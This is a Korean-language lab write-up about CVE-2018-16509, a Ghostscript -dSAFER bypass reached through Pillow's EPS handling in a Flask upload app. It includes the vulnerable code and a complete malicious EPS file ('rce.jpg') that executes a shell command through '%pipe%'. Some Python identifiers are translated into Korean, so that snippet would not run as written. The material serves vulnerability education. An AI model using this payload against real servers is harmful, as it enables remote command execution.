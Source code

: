 # Python PIL/Pillow를 통한 Ghostscript 원격 쉘 명령 실행 CVE-2018-16509

Ghostscript는 Adobe Systems의 PostScript 및 Portable Document Format (PDF) 페이지 설명 언어에 대한 인터프리터를 기반으로 하는 소프트웨어 스위트입니다. 어떤 이유로든 Ghostscript는 어떤 애플리케이션이 직접 사용하지 않더라도 프로덕션 서버에 존재합니다 (예: `/usr/local/bin/gs` 또는 `/usr/bin/gs`). 왜냐하면 Ghostscript는 다른 소프트웨어 (예: ImageMagick)의 종속성으로 설치되기 때문입니다. Ghostscript에는 여러 가지 취약점이 발견되었으며, 그 중 하나는 CVE-2018-16509입니다. 이는 Google Project Zero의 Tavis Ormandy가 발견한 취약점으로, PostScript에서 실패한 복원 (grestore)을 처리하여 LockSafetyParams를 비활성화하고 invalidaccess를 피함으로써 v9.24 이전의 Ghostscript에서 -dSAFER 우회를 이용해 임의의 명령을 실행할 수 있게 합니다. 이 취약점은 ImageMagick 라이브러리나 Ghotscript 래퍼가 있는 프로그래밍 언어의 이미지 라이브러리 (이 예제에서는 PIL/Pillow)를 통해 접근할 수 있습니다.

## 공격

서버에서 `touch /tmp/got_rce`를 실행하려면 [rce.jpg](rce.jpg) (특별히 제작된 EPS 이미지, 실제 JPG가 아님)를 업로드할 수 있습니다. 증명을 위해 `docker exec [CONTAINER_ID] ls -alt /tmp`를 실행할 수 있습니다. `CONTAINER_ID`를 얻으려면 `docker container ls`를 확인하십시오. 쉘 실행을 다른 명령으로 변경하려면 `rce.jpg`에서 `touch /tmp/got_rce`를 직접 변경할 수 있습니다.

## 분석

Tavis Ormandy가 [oss-security](https://seclists.org/oss-sec/2018/q3/142)에서 취약점에 대한 설명을 참조할 수 있습니다.

PIL/Pillow의 Ghostscript 래퍼 소스 코드는 [EPSImagePlugin.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py)에서 확인할 수 있습니다.

This is the vulnerable code of `app.py`:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files.get('image', None)  # POST 요청에서 'image' 파일을 가져옵니다.

        if not file:  # 파일이 없는 경우
            flash('이미지를 찾을 수 없습니다')  # 에러 메시지를 생성하여 플래시합니다.
            return redirect(request.url)  # 현재 페이지로 리다이렉트합니다.

        filename = file.filename  # 파일 이름을 가져옵니다.
        ext = path.splitext(filename)[1]  # 파일 이름에서 확장자를 추출합니다.

        if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):  # 지원하지 않는 확장자인 경우
            flash('유효하지 않은 확장자')  # 에러 메시지를 생성하여 플래시합니다.
            return redirect(request.url)  # 현재 페이지로 리다이렉트합니다.

        tmp = tempfile.mktemp("test")  # 임시 파일을 생성합니다.
        img_path = "{}.{}".format(tmp, ext)  # 이미지의 경로를 설정합니다.

        file.save(img_path)  # 업로드된 파일을 저장합니다.

        img = Image.open(img_path)  # 이미지를 엽니다.
        w, h = img.size  # 이미지의 크기를 가져옵니다.
        ratio = 256.0 / max(w, h)  # 리사이징 비율을 계산합니다.

        resized_img = img.resize((int(w * ratio), int(h * ratio)))  # 이미지를 리사이징합니다.
        resized_img.save(img_path)  # 리사이징된 이미지를 저장합니다.

```

업로드된 파일의 내용은 `img = Image.open(img_path)`에 의해 로드됩니다. PIL은 이미지가 EPS 이미지인지 자동으로 감지합니다 (예: 파일 시작 부분에 `%!PS-Adobe-3.0 EPSF-3.0` 추가)하고 `EPSImagePlugin.py`의 `EpsImageFile` 클래스에서 _open()을 호출합니다. `raise IOError("cannot determine EPS bounding box")`를 피하기 위해 파일에 바운딩 박스를 추가해야 합니다 (예: `%%BoundingBox: -0 -0 100 100`).

EPS 이미지의 본문은 `subprocess`를 통해 Ghostscript 바이너리로 처리됩니다. 이는 `EPSImagePlugin.py`의 `Ghostscript` 함수에서 볼 수 있습니다.

```python
 # Ghostscript 명령어 생성
명령 = ["gs",
        "-q",                         # 조용한 모드
        "-g%dx%d" % 크기,             # 출력 기하학 설정 (픽셀)
        "-r%fx%f" % 해상도,           # 입력 DPI 설정 (인치당 도트)
        "-dBATCH",                    # 처리 후 종료
        "-dNOPAUSE",                  # 페이지 간 일시 중지 없음
        "-dSAFER",                    # 안전 모드
        "-sDEVICE=ppmraw",            # ppm 드라이버
        "-sOutputFile=%s" % 출력파일,  # 출력 파일
        "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                     # 이미지 원점에 대한 조정
        "-f", 입력파일,              # 입력 파일
        "-c", "showpage",             # showpage (참고: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
       ]



    ....

    try:
    with open(os.devnull, 'w+b') as devnull:
        startupinfo = None
        if sys.platform.startswith('win'):
            # Windows 운영체제에서는 subprocess의 STARTUPINFO를 설정
            startupinfo = subprocess.STARTUPINFO()
            startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
        # subprocess.check_call 함수를 사용하여 명령어를 실행하고 입/출력을 devnull로 리디렉션
        subprocess.check_call(command, stdin=devnull, stdout=devnull, startupinfo=startupinfo)

```

위의 코드는 [Image.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/Image.py)에서 `load`가 호출될 때 호출됩니다. 따라서 이미지를 열기만 해도 취약점이 트리거되지 않습니다. `resize`, `crop`, `rotate`, `save`와 같은 함수는 `load`를 호출하고 취약점을 트리거합니다.

Tavis Ormandy의 POC와 결합하여 원격 쉘 명령 실행을 위한 `rce.jpg`를 제작할 수 있습니다.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```
